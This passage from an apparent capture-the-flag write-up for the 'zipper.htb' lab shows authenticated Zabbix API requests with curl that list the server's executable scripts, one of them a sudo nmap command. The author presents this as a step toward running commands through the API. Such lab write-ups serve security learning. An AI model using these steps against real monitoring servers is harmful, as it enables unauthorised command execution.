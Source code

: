 ```
      "rows_per_page": "50"                                                                 
    }                                                                                       
  ],                                                                                        
  "id": 1                             
}
```

So there's an `admin` user as well. When reading the API documentation, I found out that it can be used to execute scripts:

{% embed url="https://www.zabbix.com/documentation/current/en/manual/api/reference/script" % }

Based on the above, I first took a look at the existing scripts:

```
$ curl --silent --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"script.get","params":{"output":"extend"},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' | jq .
{
  "jsonrpc": "2.0",                                                                         
  "result": [                                                                               
    {                                                                                       
      "scriptid": "1",                                                                      
      "name": "Ping",                                                                       
      "command": "/bin/ping -c 3 {HOST.CONN} 2>&1",                                         
      "host_access": "2",                                                                   
      "usrgrpid": "0",                                                                      
      "groupid": "0",                                                                       
      "description": "",                                                                    
      "confirmation": "",                                                                   
      "type": "0",                                                                          
      "execute_on": "1"                                                                     
    },                                                                                      
    {                                                                                       
      "scriptid": "2",                                                                      
      "name": "Traceroute",                                                                 
      "command": "/usr/bin/traceroute {HOST.CONN} 2>&1",                                    
      "host_access": "2",                                                                   
      "usrgrpid": "0",                                                                      
      "groupid": "0",                                                                       
      "description": "",                                                                    
      "confirmation": "",                                                                   
      "type": "0",                                                                          
      "execute_on": "1"                                                                     
    },                                                                                      
    {                                                                                       
      "scriptid": "3",                                                                      
      "name": "Detect operating system",                                                    
      "command": "sudo /usr/bin/nmap -O {HOST.CONN} 2>&1",                                  
      "host_access": "2",                                                                   
      "usrgrpid": "7",                                                                      
      "groupid": "0",                                                                       
      "description": "",                                                                    
      "confirmation": "",                                                                   
      "type": "0",                                                                          
      "execute_on": "1"                                                                     
    }                                                                                       
  ],                                                                                        
  "id": 1                                                                                   
}
```
